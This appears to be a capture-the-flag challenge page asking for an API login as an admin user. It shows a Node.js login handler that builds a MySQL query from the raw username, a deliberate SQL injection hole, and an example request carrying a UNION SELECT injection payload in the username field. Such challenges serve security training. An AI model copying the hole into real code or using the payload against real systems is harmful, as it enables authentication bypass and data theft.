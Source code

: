 **Goal:** Via API, login as the admin user Gabriel Tensey (UI: https://chal15.vercel.app/)



```javascript
import dotenv from 'dotenv';
import mysql from 'mysql2';
const bcrypt = require("bcryptjs")
dotenv.config();

const encrypt = (clearText) => {
    const salt = bcrypt.genSaltSync(10);
    return bcrypt.hashSync(clearText, salt);
}

const getUser = async (userName) => {
    let connection = mysql.createConnection(process.env.DATABASE_URL);
    const query = `SELECT * FROM users_tbl
                    WHERE userName = '${userName}'`;
    const [rows, fields] = await connection.promise().query(query);

    connection.end();
    return rows;
}

const login = async (userName, password) => {
    const hashedPassword = encrypt(String(password));
    const rows = await getUser(userName);
    if(rows.length == 1 && bcrypt.compareSync(password, rows[0].password)) {
        return rows;
    }
    
    return [];
};
  
export default async (req, res) => {
    try {
        const result = await login(req.body[0].value, req.body[1].value);
        if(result.length > 0) {
            res.status(200).send(result);
        } else {
            res.status(401).send("Invalid username or password");
        }
    } catch (e) {
        res.status(500).send(e.message);
    }
};
```

<br />



```
POST /api/login

[
    { "value": "' UNION SELECT '1'#" },
    { "value": "pass" }
]
```
